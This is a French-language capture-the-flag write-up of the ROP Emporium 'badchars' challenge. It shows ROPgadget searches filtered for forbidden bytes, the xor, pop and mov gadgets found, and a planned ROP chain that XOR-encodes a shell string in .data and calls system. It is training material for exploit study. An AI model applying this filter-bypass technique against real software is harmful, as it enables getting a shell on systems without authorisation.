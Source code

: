 Les adresses semblent ne pas contenir de caractères interdis :
- `.data` @ `0x00601070`
- `system` @ `0x004006f0`

Néanmoins c'est la partie liée a la chaîne `/bin/sh`. Contient des caractères interdits. 
Pour cela, nous allons trouver un gadget avec un `xor` :

~~~bash
root@kali:~/rop_emporium/badchar# ROPgadget --binary badchars --badbytes "62|63|69|2f|20|66|6e|73" | grep "xor"
0x0000000000400b2a : add byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; xor byte ptr [r15], r14b ; ret
0x0000000000400b2c : add byte ptr [rax], al ; add byte ptr [rax], al ; xor byte ptr [r15], r14b ; ret
0x0000000000400b2e : add byte ptr [rax], al ; xor byte ptr [r15], r14b ; ret
0x0000000000400b30 : xor byte ptr [r15], r14b ; ret
0x0000000000400b31 : xor byte ptr [rdi], dh ; ret
~~~
Le seul vraiment exploitable est `xor byte ptr [r15], r14b ; ret`consistant a faire un xor des données situé a l’adresse `r15` avec la valeur de `r14b` (premier octet du registre) 
Néanmoins il faut modifier la partie relative aux `pop` car il faut insérer des données dans les registres `r14b`et `r15` : 

~~~bash
root@kali:~/rop_emporium/badchar# ROPgadget --binary badchars --badbytes "62|63|69|2f|20|66|6e|73" | grep "r13"
0x0000000000400b34 : mov qword ptr [r13], r12 ; ret
0x0000000000400bac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400b3b : pop r12 ; pop r13 ; ret
0x0000000000400bae : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400b3d : pop r13 ; ret
0x0000000000400bab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400bad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400b3c : pop rsp ; pop r13 ; ret
~~~

Le `pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret` a l’adresse `0x0000000000400bac` fait le job. 

Voici une idée de notre ROP chain : 

| pop R12, pop r13, pop r14, pop r15, ret |       |
| --------------------------------------- | ----- |
| "/bin/bash"                             | Xored |
| @.data                                  |       |
| XOR key                                 |       |
| @.data+0                                |       |
| mov [r13] r12                           |       |
| xor [r15] r14b                          |       |
| pop r15                                 | x 7   |
| @.data+n                                | x 7   |
| xor[r15] r14b                           | x 7   |
| pop rdi                                 |       |
| @.data                                  |       |
| system                                  |       |
